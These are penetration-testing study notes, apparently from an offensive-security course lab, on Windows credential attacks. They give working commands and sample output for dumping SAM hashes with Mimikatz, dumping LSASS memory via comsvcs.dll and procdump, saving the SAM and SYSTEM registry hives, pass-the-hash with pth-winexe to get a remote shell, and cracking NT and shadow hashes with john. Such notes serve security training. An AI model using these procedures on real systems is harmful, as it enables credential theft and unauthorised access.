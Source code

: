 

When ID'ing a hash, there are 3 properties to consider:  
• Length  
• Char set used  
• Any special chars used.  
  
  
[hashid](hashid.md)  
  
[Hashes](Hashes.md)  
  
[Mimikatz](mimikatz.md)  
  
[pth-winexe](pth-winexe.md)

[winexe](winexe.md)

[john](john.md)

[hashcat](hashcat.md)  
  
  
Other hash dumping tools, including **pwdump**, **fgdump**, & **Windows Credential Editor** (**wce**), work well against older Windows os' like Windows XP and Windows Server2003.  


### Finding lsass PID:
```powershell
tasklist /fi "imagename eq lsass.exe"
```


  
### Mimikatz:

```powershell
C:\> C:\Tools\password_attacks\mimikatz.exe  
...  
mimikatz # privilege::debug  
Privilege '20' OK  
  
mimikatz # token::elevate  
Token Id  : 0  
User name :  
SID name  : NT AUTHORITY\SYSTEM  
  
740     {0;000003e7} 1 D 33697 NT AUTHORITY\SYSTEM  S-1-5-18  (04g,21p)  Primary  
 -> Impersonated !  
 * Process Token : {0;0002e0fe} 1 F 3790250  corp\offsec  S-1-5-21-3048852426-3234707088-723452474-1103  (12g,24p)  Primary  
 * Thread Token  : {0;000003e7} 1 D 3843007  NT AUTHORITY\SYSTEM  S-1-5-18  (04g,21p)  Impersonation (Delegation)  
  
mimikatz # lsadump::sam  
Domain : CLIENT251  
SysKey : 457154fe3c13064d8ce67ff93a9257cf  
Local SID : S-1-5-21-3426091779-1881636637-1944612440  
SAMKey : 9b60bd58cdfd663166e8624f20a9a6e5  
...  
RID  : 000001f8 (504)  
User : WDAGUtilityAccount  
  Hash NTLM: 0c509cca8bcd12a26acf0d1e508cb028  
  
RID  : 000003e9 (1001)  
User : Offsec  
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
```


### comsvcs.dll
```powershell
ps C:\windows\system32> .\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```


### procdump.exe
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```


### reg.exe
```powershell
reg save hklm\sam <directory-to-save>\sam
reg save hklm\system <directory-to-save>\system
```


### Pass the Hash:

Allows an attacker to auth to a remote target by using a valid combo of _username_ and _NTLM/LM hash_ rather than a clear text password.  
- Possible because NTLM/LM password hashes aren't salted & remain static between sessions.  
- Can also use to auth to other systems containing that same user & hash.  
  
  
Use **pth-winexe** from the Passing-The-Hash toolkit (a modified version of **winexe**), which performs auth using the SMB protocol.  
  
To execute an application like cmd on the remote computer using the SMB protocol, admin privileges are required due to auth'ing to the administrative share C$ and subsequent creation of a Windows service.  
  
  
Using the hash we just had dumped from **mimikatz.exe**:  
```bash
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd  
E_md4hash wrapper called.  
HASH PASS: Substituting user supplied NTLM HASH...  
Microsoft Windows [Version 10.0.16299.309]  
(c) 2017 Microsoft Corporation. All rights reserved.  
  
C:\Windows\system32>
```


Behind the scenes, the format of the NTLM hash we provided was changed into a NetNTLM version 1 or 2 format during the auth process.  

We can capture these hashes using MITM or poisoning attacks & either crack them or relay them.  
  
For example, some apps like IE and Windows Defender use the Web Proxy Auto-Discovery Protocol (WPAD) to detect proxy settings.  

If we are on the local network, we could poison these requests and force NetNTLM auth with a tool like _Responder.py_,  
	which creates a rogue WPAD server designed to exploit this security issue.  
Since poisoning is highly disruptive to other users, tools like Responder.py should never be used in the labs.  
  


### PW Cracking:

Brute forcing w/ [john](john.md):  
```bash
cat hash.txt  
WDAGUtilityAccount:0c509cca8bcd12a26acf0d1e508cb028  
Offsec:2892d26cdf84d7a70e2eb3b9f05c425e  
  
sudo john hash.txt --format=NT  
Using default input encoding: UTF-8  
Rules/masks using ISO-8859-1  
Loaded 2 password hashes with no different salts (NT [MD4 128/128 AVX 4x3])
```


Linux:  
```bash
sudo unshadow /etc/passwd /etc/shadow > unshadowed.txt  
  
john --rules --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt unshadowed.txt
```

  
[hashcat](hashcat.md):